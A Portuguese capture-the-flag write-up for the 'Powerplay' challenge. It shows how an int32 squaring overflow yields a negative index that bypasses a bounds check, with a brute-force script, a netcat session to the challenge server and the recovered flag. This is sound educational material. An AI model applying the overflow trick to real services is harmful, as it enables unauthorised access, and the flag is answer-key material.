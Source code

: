 # WriteUp: Powerplay
## Descrição do Desafio
Categoria: misc

Descrição:
> Pump yourself up with power to get an inspirational quote.

## Solução
O desafio disponibliza o seguinte código python.

```py
import numpy as np
from secret import flag, quotes

prizes = quotes + ['missingno'] * 4 + [flag] * 24

if __name__ == '__main__':
	print('Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!\n')
	player_count = int(input('How many players participate?\n'))
	power = np.zeros(player_count, dtype = np.int32)
	for i in range(player_count):
		power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
	ready = False

	while True:
		print('What do you want to do?\n1) pump up\n2) cash in')
		option = int(input())
		if option == 1:
			power = power**2
			ready = True
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
			exit()
		else:
			raise Exception('What?')

```
Analisando esse código, podemos ver que há um vetor `prizes` que contém várias strings e a flag 24 vezes no final, então, precisamos acessar alguma dessas posições em que a flag está.

Observando o funcionamento do código, é primeiro pedido do usuário a quantidade de jogadores e a "força" de cada jogador, após isso, o usuário pode escolher duas opções. A primeira opção "pump up" eleva todos as "forças" de todos os jogadores ao quadrado e a segunda opção "cash in" acessa uma posição do vetor prizes, porém, so irá acessar a posição caso a "força" do jogador seja menor que a quantidade de strings no vetor "quotes".

Portanto, precisamos escolher uma "força" que, ao elevar ao quadrado, resulte em uma posição em que a flag está no vetor de `prizes`, porém, como o vetor `prizes` contém todas as strings de `quotes` e o código não deixa
o usuário acessar alguma posição que seja maior que o tamanho de `quotes`, não podemos acessar as posições que a flag está de maneira tradicional.

Para passar por essa verificação, podemos usar uma propriedade da linguagem python que é os índices negativos.

```py
v[-1] # Última posição
v[-2] # Penúltima posição
v[-3] # Antepenúltima posição
```

Desse modo, precisamos acessar alguma posição entre `-1` e `-24`, que são as posições em que a flag se encontra. Porém, precisamos de algum número que, elevado ao quadrado, resulta em um número nesse intervalo. 
Podemos fazer isso utilizando `integer overflow`.

```py
power = np.zeros(player_count, dtype = np.int32)
```

Como a variável `power` é definido commo um int de 32 bits, podemos encontrar algum número que, elevado ao quadrado, passa do valor máximo de inteiros de 32 bits e resulta em um número negativo. Para fazer isso,
podemos fazer um script simples que testa todos os números de `0` até o maior inteiro possível de 32 bits e verifica se esse número ao quadrado se encaixa no intervalo de `-24` a `-1`.

```py
import numpy as np

def encontra_indice():
    for i in range(2147483647): # Ate maior valor inteiro possivel
        i2 = np.int32(i) ** 2   # Elevando ao quadrado
        if i2 >= np.int32(-24) and i2 < 0: # Verificando se esta no intervalo -24 a -1
            return i, i2

indice, indiceQuadrado = encontra_indice()
print("Número encontrado " +  str(indice))
print(str(indice) + " ao quadrado = " + str(indiceQuadrado))
```

Ao rodar esse script, obtemos o seguinte output.

```
Número encontrado 34716455
34716455 ao quadrado = -15
```

Agora, basta apenas conectar ao servidor e usar esse número como "força" de qualquer jogador

```shell
root@DESKTOP-4IEKTFM:/mnt/c/Users/Caio/Desktop# nc 52.59.124.14 5016
Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!

How many players participate?
1
Player 0, how strong are you right now?
34716455
What do you want to do?
1) pump up
2) cash in
1
What do you want to do?
1) pump up
2) cash in
2
You got an inspiration: ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}
```

### Flag: `ENO{d0_n0t_be_s0_neg4t1ve_wh3n_y0u_sh0uld_be_pos1t1ve}`
